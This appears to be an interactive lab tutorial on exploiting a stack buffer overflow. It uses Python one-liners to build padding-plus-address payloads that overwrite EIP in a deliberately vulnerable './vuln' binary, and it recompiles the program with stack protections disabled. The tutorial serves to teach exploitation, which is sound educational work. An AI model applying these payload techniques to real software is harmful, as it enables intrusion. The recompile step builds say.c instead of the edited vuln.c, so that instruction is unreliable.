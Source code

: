# Leverage python for payload crafting 

## Install python

`apt install -y python python3 python-dev python3-dev python3-pip`{{execute}}

## python exploitation:

As a reminder:
- the secretHiddenFunction address is `\xce\x92\x04\x08` in python
- The payload is `./vuln AAAAAAAAAAAAAAAABBBBCCCCDDDDEEEE` with EEEE to be replaced by the above address.

In python2 we can generate a payload with:

`python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xce\x92\x04\x08')"`{{execute}}

The 28 characters are called the offset and could be any character. The next 4 bytes are used to overwrite the EIP and must point to the function we want to execute.

Let's try the exploit:

`./vuln \`python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xce\x92\x04\x08')"\``{{execute}}

or 

`./vuln $(python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xce\x92\x04\x08')")`{{execute}}

Et voila! we have successfully reached a piece of code which is never called, and we no longer have any segmentation fault. Which means that the signal handler is not a strong mitigation.

## What if the buffer size get too large?

Because our buffer size is only 16, it is quite easy to type by hand a larger sequence of character. But what if the buffer size is 2048, or 16384? even with copy-pasting it becomes tedious to crash the programme with a segmentation fault.

Let's modify the size of the buffer to 2048. We will use a command-line editor called vim (Feel free to use `nano` if you are not comfortable with `vim`). If you are stuck in vim, you can quit at any time by typing `<ESC>qa!`.

1. open the source file in vim: `vim ./vuln.c`{{execute}}
2. direct jump to the buffer size 16 by typing: `/16<ENTER>`
3. change the word (cw) under the cursor with the value 2048: `cw2048`
4. save and quit with: `<ESC>ZZ` or `<ESC>wq` (write then quit)

Recompile:

`gcc -m32 -O0 -fno-stack-protector -no-pie -z execstack  -o say say.c`{{execute}}

## generate a large payload 

`python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + 'E'*4 + 'F'*4)"`{{execute}}

`./vuln $(python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + 'E'*4 + 'F'*4)")`{{execute}}

`dmesg | tail -2`{{execute}}

`./vuln $(python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + '\xce\x92\x04\x08')")`{{execute}}


